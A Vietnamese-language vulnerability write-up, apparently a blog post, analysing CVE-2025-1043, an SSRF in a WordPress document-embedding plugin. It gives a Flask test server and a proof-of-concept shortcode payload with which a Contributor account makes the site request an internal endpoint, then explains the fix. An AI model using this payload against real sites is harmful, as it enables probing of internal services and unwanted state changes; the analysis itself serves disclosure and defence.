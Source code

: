 ## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

@app.route('/delete')
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

1. Login bằng tài khoản Contributor

2. Tạo post với shortcode

```
[embeddoc url=http://localhost:8001/delete?id=1 download=all]
```

**Result**:

![Result](result.png "HEAD request tới local service")

## Conclusion

CVE-2025-1043 là SSRF do plugin gọi `wp_remote_head()` với URL từ shortcode mà không kiểm tra. Dù là `HEAD` (không có body), vẫn có thể lộ metadata, thăm dò dịch vụ nội bộ hoặc, khi có redirect/endpoint không phân biệt method, gây thay đổi trạng thái. Bản vá (v2.7.6) dùng `esc_url_raw()` + `wp_safe_remote_head()` để giảm rủi ro.
